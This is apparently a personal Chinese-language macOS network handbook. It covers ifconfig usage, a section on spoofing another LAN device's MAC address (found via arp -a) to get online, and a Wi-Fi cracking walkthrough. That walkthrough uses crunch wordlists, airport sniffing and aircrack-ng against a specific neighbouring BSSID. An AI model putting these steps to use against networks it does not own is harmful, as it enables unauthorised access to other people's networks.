 #+TITLE: Network Handbook

+ 当前基础信息：
#+BEGIN_QUOTE
$ ifconfig
lo0: flags=8049<UP,LOOPBACK,RUNNING,MULTICAST> mtu 16384
	options=3<RXCSUM,TXCSUM>
	inet6 ::1 prefixlen 128 
	inet 127.0.0.1 netmask 0xff000000 
	inet6 fe80::1%lo0 prefixlen 64 scopeid 0x1 
	nd6 options=1<PERFORMNUD>
gif0: flags=8010<POINTOPOINT,MULTICAST> mtu 1280
stf0: flags=0<> mtu 1280
en0: flags=8863<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 1500
	ether a4:5e:60:c0:ee:9b 
	inet6 fe80::a65e:60ff:fec0:ee9b%en0 prefixlen 64 scopeid 0x4 
	inet 192.168.0.111 netmask 0xffffff00 broadcast 192.168.0.255
	nd6 options=1<PERFORMNUD>
	media: autoselect
	status: active
en1: flags=963<UP,BROADCAST,SMART,RUNNING,PROMISC,SIMPLEX> mtu 1500
	options=60<TSO4,TSO6>
	ether 4a:00:00:b8:f1:e0 
	media: autoselect <full-duplex>
	status: inactive
en2: flags=963<UP,BROADCAST,SMART,RUNNING,PROMISC,SIMPLEX> mtu 1500
	options=60<TSO4,TSO6>
	ether 4a:00:00:b8:f1:e1 
	media: autoselect <full-duplex>
	status: inactive
p2p0: flags=8843<UP,BROADCAST,RUNNING,SIMPLEX,MULTICAST> mtu 2304
	ether 06:5e:60:c0:ee:9b 
	media: autoselect
	status: inactive
awdl0: flags=8943<UP,BROADCAST,RUNNING,PROMISC,SIMPLEX,MULTICAST> mtu 1484
	ether 86:45:47:7e:19:3b 
	inet6 fe80::8445:47ff:fe7e:193b%awdl0 prefixlen 64 scopeid 0x8 
	nd6 options=1<PERFORMNUD>
	media: autoselect
	status: active
bridge0: flags=8863<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 1500
	options=63<RXCSUM,TXCSUM,TSO4,TSO6>
	ether a6:5e:60:0c:75:00 
	Configuration:
		id 0:0:0:0:0:0 priority 0 hellotime 0 fwddelay 0
		maxage 0 holdcnt 0 proto stp maxaddr 100 timeout 1200
		root id 0:0:0:0:0:0 priority 0 ifcost 0 port 0
		ipfilter disabled flags 0x2
	member: en1 flags=3<LEARNING,DISCOVER>
	        ifmaxaddr 0 port 5 priority 0 path cost 0
	member: en2 flags=3<LEARNING,DISCOVER>
	        ifmaxaddr 0 port 6 priority 0 path cost 0
	nd6 options=1<PERFORMNUD>
	media: <unknown type>
	status: inactive
#+END_QUOTE

* 网络操作命令

** ifconfig常用命令
 + 只列出处于激活状态的网络接口
 $ ifconfig 

 + 列出所有网络接口，不论是否激活
 $ ifconfig -a

 + 查看具体网卡信息
 $ ifconfig en0

 + 网卡的关闭与激活
 $ sudo ifconfig en0 down
 $ sudo ifconfig en0 up

 + 为网卡设置IP地址
 $ sudo ifconfig en0 192.168.0.111 netmask 255.255.255.0

 + 为网卡设置第二个IP地址
 $ sudo ifconfig en0 192.168.0.222 netmask 255.255.255.0 alias

 + 删除网卡的IP地址
 $ sudo ifconfig en0 delete 192.168.0.222

 + 更改Mac地址
 $ sudo ifconfig en0 ether xx:xx:xx:xx:xx:xx
 注意：Mac地址的第一位必须为偶数(以0,2,4,6,8,A,C,E结尾)

 + 通过ifconfig所做更改在重启之后会失效。

** 伪装成另一台机器上网
 + 地址解析，列出局域网其他设备和mac地址
 $ arp -a

 + 更改自己的网卡Mac地址
 $ sudo ifconfig en0 ether xx:xx:xx:xx:xx:xx

 + 查看效果
 $ ifconfig en0 | grep ether

 torproject.org


* Wi-Fi破解
** 工具准备
  + 安装aircrack-ng
  $ brew install aircrack-ng
  $ sudo ln -s /usr/local/cellar/aircrack-ng/1.1_2/bin/aircrack-ng /usr/local/bin/aircrack-ng

  + 创建airport的链接
  $ sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport

  + crunch
  $ brew install crunch
  $ sudo ln -s /usr/local/cellar/crunch/3.6/bin/crunch /usr/local/bin/crunch
  $ crunch 6 6 0123456789abcdef -o 6chars.txt
    crunch [min length] [max length] [character set] [options]
  使用给定的字符（0123456789abcdef）创建字典文件。其中的word最小长度为6，最大长度为6。完成后将字典文件输出为6chars.txt，保存在~目录下。

** 开始破解
  + 查找可用Wi-Fi
  $sudo airport -s
 #+BEGIN_QUOTE
                             SSID BSSID             RSSI CHANNEL HT CC SECURITY (auth/unicast/group)
                    ChinaNet-op4A 02:0e:5e:2b:8c:85 -85  1       Y  AL WPA2(PSK/TKIP,AES/TKIP) 
                     TP-LINK_9F77 88:25:93:37:9f:77 -91  11,-1   Y  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                     TP-LINK_FECA 8c:a6:df:1e:fe:ca -83  11,-1   Y  CN WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                      biglass3_5G 30:fc:68:bb:78:eb -62  157     Y  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                       Biglss2_5G 04:02:1f:53:5c:44 -80  149     Y  US WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                     TP-LINK_C48C e4:d3:32:4f:c4:8c -78  6,-1    Y  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                       TP-LINK_b3 80:89:17:7b:3a:5a -90  6,-1    Y  CN WPA(PSK/AES,TKIP/TKIP) WPA2(PSK/AES,TKIP/TKIP) 
                          Biglss2 04:02:1f:53:5c:40 -61  6,-1    Y  US WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                        rangzhang e0:05:c5:e8:b7:0a -64  4,+1    Y  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                     Tenda_136D20 c8:3a:35:13:6d:20 -78  4,+1    Y  -- WPA(PSK/AES/AES) 
                          Biglass 08:57:00:72:84:e0 -70  2,+1    Y  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
  HP-Print-20-Deskjet 4640 series fc:15:b4:6a:50:20 -80  1       N  -- WPA2(PSK/AES/AES) 
                               HB e4:d3:32:28:b5:9a -53  1,+1    Y  CN WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                          InteAir 50:bd:5f:36:3d:44 -56  1,+1    Y  CN WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                    ChinaNet-KAbz 02:0e:5e:2e:8f:46 -71  1       Y  AL WPA2(PSK/TKIP,AES/TKIP) 
                   biglass3_Guest 3a:fc:68:bb:78:e9 -56  11      Y  -- NONE
                         biglass3 30:fc:68:bb:78:e9 -56  11      Y  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                        D-Link_zm 78:54:2e:a9:0d:a8 -48  8,-1    Y  -- WPA(PSK/TKIP,AES/TKIP) WPA2(PSK/TKIP,AES/TKIP) 
 #+END_QUOTE

  + 开始监听
  $ sudo airport en0 sniff 8（channel）
  此时本机Wi-Fi会进入monitor状态。监听的文件会放在/tmp文件夹下面。

  + 开始破解
  # $ sudo aircrack-ng -l -a 2 -b 78:54:2e:a9:0d:a8 监听文件
  $ sudo aircrack-ng -w wordlist.lst（字典） -b 78:54:2e:a9:0d:a8（BSSID） /private/tmp/*.cap（监听到的文件）
  如果没有成功继续执行上条命令。








